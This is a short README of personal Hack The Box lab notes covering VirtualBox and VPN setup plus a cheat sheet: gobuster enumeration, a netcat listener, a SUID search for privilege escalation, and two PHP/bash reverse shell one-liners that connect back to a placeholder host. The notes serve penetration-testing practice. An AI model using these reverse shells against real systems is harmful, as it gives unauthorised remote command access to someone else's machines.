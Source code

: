 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatShhet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
- quick play
```
gobuster dir -t 100 -u http://url -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

### Reverse Shell

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
```
nc -lnvp 1234
```
- Direct input
```shell
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```
